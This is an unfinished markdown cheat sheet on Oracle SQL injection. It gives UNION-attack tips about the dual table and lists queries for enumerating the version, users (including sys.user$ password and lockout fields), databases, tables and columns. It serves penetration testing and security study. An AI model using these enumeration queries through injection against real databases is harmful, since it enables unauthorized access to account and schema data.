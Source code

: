 # Oracle SQL Injection

### Tips
- On Oracle databases, the **SELECT** statement must have a **FROM** clause. If your **UNION SELECT** attack does not query from a table, you will still need to include the **FROM** keyword followed by a valid table name.
- There is a built-in table on Oracle called ***dual*** which you can use for this purpose.
  - example : `SELECT SYS.DATABASE_NAME FROM dual --`
- The ***dual*** table which is a special table used for evaluating expressions or calling functions.
- Oracle provides you with the ***dual*** table which is a special table that belongs to the schema of the user **SYS** but it is accessible to all users.
- The ***dual*** table has one column named **DUMMY** whose data type is `VARCHAR2()` and contains one row with a value **X**.


**get the version**
```
SELECT banner FROM v$version
SELECT version FROM v$instance
```

**get the user**
```
SELECT user FROM dual
SELECT NAME FROM sys.user$

[Note : Internal table sys.user$ keeps both users and roles.]
SELECT NAME, type#, ctime, ptime, exptime, ltime, lcount FROM sys.user$ WHERE NAME IN ('SYS', 'SYSTEM', 'PUBLIC', 'DBA', 'SCOTT') ORDER BY NAME;

(NAME – name for user or role
 TYPE# – 0 for role or 1 for user
 CTIME – the date of creation
 PTIME – the date the password was last changed
 EXPTIME – the date the password has last expired
 LTIME – the date the resource was last locked
 LCOUNT – number of failed logon)

[List all users that are visible to the current user]
SELECT * FROM all_users

[List all users in the Oracle Database]
SELECT * FROM dba_users

[Show the information of the current user]
SELECT * FROM user_users
```

**get the database**
```
select * from global_name
select name from v$database
select ora_database_name from dual
select SYS.DATABASE_NAME from dual
select db_name from v$instance
select instance_name from v$instance
select DISTINCT owner from all_tables
```

**get the table**
```
select table_name from all_tables

[Show tables owned by the current user]
SELECT table_name FROM user_tables ORDER BY table_name

[Show tables that are accessible by the current user]
SELECT table_name FROM all_tables ORDER BY table_name

[Show all tables of a specific owner]
SELECT * FROM all_tables WHERE OWNER = 'OWNER_NAME' ORDER BY table_name

[Show all tables in the Oracle Database]
SELECT table_name FROM dba_tables
```

**get the column**
```
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE_NAME'
(ALL_TAB_COLUMNS describes the columns of the tables, views, and clusters accessible to the current user.)

SELECT * FROM dba_tab_columns WHERE table_name = 'TABLE_NAME'
(DBA_TAB_COLUMNS describes the columns of all tables, views, and clusters in the database.)

SELECT * FROM user_tab_columns WHERE table_name = 'TABLE_NAME'
(USER_TAB_COLUMNS describes the columns of the tables, views, and clusters owned by the current user.)
```

**Note:** not completed. to be continued...
